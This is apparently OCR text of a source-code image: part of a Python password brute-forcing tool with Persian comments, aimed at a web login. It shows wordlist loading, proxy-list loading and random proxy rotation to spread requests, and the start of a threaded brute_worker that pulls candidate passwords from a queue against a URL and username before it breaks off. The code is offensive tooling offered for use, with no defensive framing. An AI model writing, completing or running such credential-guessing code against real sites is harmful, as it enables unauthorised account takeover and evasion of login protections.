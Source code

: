     def check_wordlist_file(self, wordlist_file):
        """بررسی وجود فایل وردلیست"""
        if not os.path.exists(wordlist_file):
            print(f"{Colors.RED}[!] ERROR: Wordlist file '{wordlist_file}' not found!{Colors.END}")
            print(f"{Colors.RED}[!] Please create a wordlist file first{Colors.END}")
            print(f"{Colors.RED}[!] Example: echo 'password\n123456\nadmin' > passwords.txt{Colors.END}")
            return False
        
        # بررسی اینکه فایل خالی نباشد
        if os.path.getsize(wordlist_file) == 0:
            print(f"{Colors.RED}[!] ERROR: Wordlist file '{wordlist_file}' is empty!{Colors.END}")
            return False
            
        return True
    
    def load_wordlist(self, wordlist_file):
        """بارگذاری وردلیست با بررسی خطا"""
        if not self.check_wordlist_file(wordlist_file):
            return []
            
        try:
            with open(wordlist_file, 'r', encoding='utf-8', errors='ignore') as f:
                passwords = [line.strip() for line in f if line.strip()]
                
            print(f"{Colors.SKY_BLUE}[+] Loaded {len(passwords)} passwords from {wordlist_file}{Colors.END}")
            return passwords
            
        except Exception as e:
            print(f"{Colors.RED}[!] Error reading wordlist: {e}{Colors.END}")
            return []
    
    def load_proxies(self, proxy_file):
        try:
            if not os.path.exists(proxy_file):
                print(f"{Colors.RED}[!] Proxy file {proxy_file} not found!{Colors.END}")
                return []
                
            with open(proxy_file, 'r') as f:
                proxies = [line.strip() for line in f if line.strip()]
            return proxies
        except Exception as e:
            print(f"{Colors.RED}[!] Error loading proxies: {e}{Colors.END}")
            return []
    
    def rotate_proxy(self, proxies):
        if proxies:
            return {'http': random.choice(proxies), 'https': random.choice(proxies)}
        return None
    
    def brute_worker(self, url, username, password_queue, proxies, delay, timeout):
        while not password_queue.empty() and not self.found:
            try:
                password = password_queue.get()
                